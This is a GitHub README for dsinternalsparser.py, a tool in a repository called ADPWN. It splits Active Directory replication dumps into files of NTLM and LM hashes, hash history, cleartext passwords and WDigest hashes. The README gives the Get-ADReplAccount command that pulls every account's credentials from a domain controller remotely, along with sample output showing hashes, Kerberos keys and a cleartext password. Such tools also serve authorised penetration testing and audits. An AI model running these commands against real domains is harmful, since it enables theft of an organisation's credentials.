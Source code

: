 # dsinternalsparser.py

This tool makes easy and faster the dumping process of hashes stored in a *domain controller*.

```
-----------------------
DSInternals Parser v1.0
-----------------------

usage: dsinternalsparser.py [-h] [-o OUTPUT] [--ntlm] [--nthistory] [--lm]
                            [--lmhistory] [--cleartext] [--wdigest]
                            input_file

Parses a Get-ADReplAccount generated file to extract credentials data,
including hashes.

positional arguments:
  input_file            File to process, generated by Get-ADReplAccount of
                        DSInternals

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Prefix name for output files.
  --ntlm                Generate the file with username and current NTLM hash.
  --nthistory           Generate the file with username and history NTLM
                        hashes.
  --lm                  Generate the file with username and current LM hash.
  --lmhistory           Generate the file with username and history LM hashes.
  --cleartext           Generate the file with existent users that have
                        ClearText password.
  --wdigest             Generate the file with existent users that have
                        Wdigest password.

```


It uses the output of the **DSInternals** modules that retreives *reversibly encrypted plaintext passwords, password hashes and Kerberos keys* of all user accounts from domain controllers.

As mentioned in [DSInternals web page](https://www.dsinternals.com/en/), it is possible to retrieve hashes remotely, instead of the well known method using *vssadmin, ESEDBTOOLS and NTDSXtract*, pretty slow in some cases because of the **NTDS.dit** size, *ESEDBTOOLS* misconfigurations, etc. 

To extract the hashes remotely:

1.  Retrieve all users attributes with the **DSinternals** module *Get-ADReplAccount*, and save it to a local file.
    ```
    Get-ADReplAccount -All -NamingContext 'DC=Example,DC=com' -Server DC1 -Credential $cred >> localfile.txt
    ```
    The file generated has a format similar to the next one.
    ```
    DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
    Sid: S-1-5-21-3180365339-800773672-3767752645-1375
    Guid: 124ae098-699b-4450-a47a-314a29cc90ea
    SamAccountName: April
    SamAccountType: User
    UserPrincipalName: April@adatum.com
    PrimaryGroupId: 513
    SidHistory: 
    Enabled: True
    Deleted: False
    LastLogon: 
    DisplayName: April Reagan
    GivenName: April
    Surname: Reagan
    Description: 
    NTHash: 92937945b518814341de3f726500d4ff
    LMHash: 727e3576618fa1754a3b108f3fa6cb6d
    NTHashHistory: 
      Hash 01: 92937945b518814341de3f726500d4ff
      Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
      Hash 03: 402bc59d8a00641b7f386e78596340f4
    LMHashHistory: 
      Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
      Hash 02: 5a5503d0e85f58abaad3b435b51404ee
      Hash 03: f9393d97e7a1873caad3b435b51404ee
    SupplementalCredentials:
      ClearText: Pa$$w0rd
      Kerberos:
        Credentials:
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
        OldCredentials:
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
        Salt: ADATUM.COMApril
        Flags: 0
      KerberosNew:
        Credentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: a72c8bc96c4a6f03244f0b0067a1e440
            Iterations: 4096
          DES_CBC_MD5
            Key: 76fe3b5bda911a40
            Iterations: 4096
        OldCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 034b512ec64286dec951d6aff8d81fa8
            Iterations: 4096
          DES_CBC_MD5
            Key: 7f8c4f38e0ea0b80
            Iterations: 4096
        OlderCredentials:
          AES256_CTS_HMAC_SHA1_96
            Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
            Iterations: 4096
          AES128_CTS_HMAC_SHA1_96
            Key: 29d536ec057f9063747161429b81f056
            Iterations: 4096
          DES_CBC_MD5
            Key: 58f1cbe6e50e1f83
            Iterations: 4096
        ServiceCredentials:
        Salt: ADATUM.COMApril
        DefaultIterationCount: 4096
        Flags: 0
      WDigest:
        Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 02: c993da396914645b356ae7816251fcb1
        Hash 03: 6b58530cab34de91189a603e22c2be15
        Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
        Hash 05: 5a762cf59fa31023dcba1ebd4725b443
        Hash 06: c78bac91c0ba25cae5d44460fd65a73b
        Hash 07: 59d73cea16afd1aac6bf8acfa2768621
        Hash 08: d2be383db9469a39736d9e2136054131
        Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
        Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
        Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
        Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
        Hash 13: e899e577d5f81ef5288ab67de07fad9a
        Hash 14: 135452ab86d40c3d47ca849646d5e176
        Hash 15: a84c367eaa334d0a4cb98e36da011e0f
        Hash 16: 61a458eb70440b1a92639452f0c2c948
        Hash 17: 238f4059776c3575be534afb46be4ccf
        Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
        Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
        Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
        Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
        Hash 22: f1685383b0c131035ae264ee5bd24a8d
        Hash 23: 3119e42886b01cad00347e72d0cee594
        Hash 24: ebef7f2c730e17ded8cba1ed20122602
        Hash 25: 7d99673c9895e0b9c484e430578ee78e
        Hash 26: e1e20982753c6a1140c1a8241b23b9ea
        Hash 27: e5ec1c63e0e549e49cda218bc3752051
        Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
        Hash 29: 84010d657e6b58ce233fae2bd7644222
    ```
2. Parse the localfile with dsinternaslparser.py
    ```
    ./dsinternalsparser.py -o dump localfile.txt
    ```
3. After execution, if no options are given, **dsinternalsparser.py** creates 6 files.
    * **NTLM File** (*dump_ntlm.txt*): Contains username and current NTLM Hash.
    * **NTLM History File** (*dump_ntlm_history.txt*): Contains username and NTLM History Hashes.
    * **LM File** (*dump_lm.txt*): Contains username and current LM Hash.
    * **Cleartext File** (*dump_cleartext.txt*): Contains username and Cleartext password, if exists.
    * **NTLM History File** (*dump_wdigest.txt*): Contains username and WDigest history Hashes.
  
  
For more information:

* [Retrieveing Active Directory Passwords Remotely](https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/)


## Installation
### Requirements
* Python 2.7 environment
* DSInternals output file generated with Get-ADReplAccount or Get-ADDBAccount.
### Downloading
To download the script, simply download and execute on terminal.
```
wget https://raw.githubusercontent.com/r4wd3r/ADPWN/master/dsinternalsparser/dsinternalsparser.py
chmod 755 dsinternalsparser.py
```
